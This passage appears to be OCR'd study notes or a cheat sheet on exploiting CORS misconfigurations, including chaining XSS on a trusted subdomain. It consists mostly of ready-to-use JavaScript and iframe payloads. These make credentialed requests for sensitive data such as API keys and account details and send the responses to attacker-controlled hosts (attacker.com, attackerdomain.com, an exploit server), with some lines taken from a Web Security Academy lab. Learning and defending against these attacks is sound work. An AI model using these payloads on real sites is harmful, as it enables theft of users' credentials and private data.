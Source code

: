 ```js

function reqListener()
{location='attacker.com/log?key='+this.responseText;
};
</script>"> </iframe>
```

alternate exploit form
```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>  
   var req = new XMLHttpRequest();  
   req.onload = reqListener;  
   req.open('get','$url/sensitive-info',true);  
   req.withCredentials = true;  
   req.send();  
  
   function reqListener() {  
       location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);  
   };  
</script>"></iframe>
```
 
## Exploiting XSS via CORS trust relationships
- if CORS Configured to establish trust relationship between `Two Origins`, and if a web app trusts an `Origin` that is `vulnerable to XSS`.
- Then an attacker can exploit `XSS` to inject some `JS` that uses `CORS` to Retrieve sensitive information from the site that trust the vulnerable application.
- `Example: ` 
request
```js
GET /api/requestApiKey HTTP/1.1
Host: vuln-web.com
Origin: https://subdomain.vuln-web.com
Cookie: sessionID=34erjf4kh5i34hw5yri
```
and server Responds with
```js
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://subdomain.vuln-web.com
Access-Control-Allow-Credentials: true
```
- then attacker find `XSS` on subdomain.vuln-web.com & use that to retrieve `ApiKey` using URL like
```js
https://subdomain.vuln-web.com/?xss=
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','http://vuln-web.com/senditive-info',true);
req.withCredentials = true;
req.send();

function reqListener(){
location='//attackerdomain.com/?key='+this.responseText;</script>
```
or another exploit for `CORS using XSS`
```js
<script>
document.location="http://stock.acca1fa91f3524af80e8305a00a9006a.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();req.onload = reqListener;req.open('get','https://acca1fa91f3524af80e8305a00a9006a.web-security-academy.net/accountDetails','true');req.withCredentials = true;req.send();function reqListener(){ location='https://acbc1f361f42242980a630bc01ba0080.web-security-academy.net/log/?key='%2bthis.responseText;};%3c/script>&storeId=1"
</script>
```
